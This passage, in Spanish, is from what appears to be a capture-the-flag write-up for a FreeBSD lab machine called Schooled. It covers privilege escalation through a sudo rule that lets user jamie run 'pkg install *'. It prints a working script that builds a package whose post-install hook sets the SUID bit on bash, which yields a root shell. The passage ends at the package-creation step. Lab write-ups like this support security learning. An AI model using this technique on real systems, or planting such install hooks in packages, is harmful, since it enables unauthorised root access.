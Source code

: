 # **ESCALACION DE PRIVILEGIOS**

Miramos si tenemos privilegios SUID como el usuario jamie:

```bash
jamie@Schooled:/tmp $ sudo -l
User jamie may run the following commands on Schooled:
    (ALL) NOPASSWD: /usr/sbin/pkg update
    (ALL) NOPASSWD: /usr/sbin/pkg install *
```

En google encuentro un post sobre como crear un package customizado: [LINK](http://lastsummer.de/creating-custom-packages-on-freebsd/)

Voy a crear un package que ejecute el comadno que yo quiera, en este caso le otorgare permisos SUID a la bash

```bash
jamie@Schooled:/tmp $ ls -la /bin/bash
lrwxr-xr-x  1 root  wheel  19 Apr  1 17:02 /bin/bash -> /usr/local/bin/bash
jamie@Schooled:/tmp $ ls -la /usr/local/bin/bash                                                                                                                                            
-rwxr-xr-x  1 root  wheel  941288 Feb 20  2021 /usr/local/bin/bash
```

La /bin/bash tiene un enlace simbolico hacia /usr/local/bin/bash , por lo que tendremos que otorgarle permisos SUID a /usr/local/bin/bash

Para ello nos creamos en la maquina este script en bash siguiendo los pasos de la pagina:

```bash
jamie@Schooled:/tmp $ cat privesc 
#!/bin/sh

STAGEDIR=/tmp/stage
rm -rf ${STAGEDIR}
mkdir -p ${STAGEDIR}
cat >> ${STAGEDIR}/+PRE_DEINSTALL <<EOF
# careful here, this may clobber your system
EOF
cat >> ${STAGEDIR}/+POST_INSTALL <<EOF
# careful here, this may clobber your system
echo "Registering root shell"
chmod +s /usr/local/bin/bash
EOF
cat >> ${STAGEDIR}/+MANIFEST <<EOF
name: mypackage
version: "1.0_5"
origin: sysutils/mypackage
comment: "automates stuff"
desc: "automates tasks which can also be undone later"
maintainer: john@doe.it
www: https://doe.it
prefix: /
EOF
pkg create -m ${STAGEDIR}/ -r ${STAGEDIR}/ -o .
```
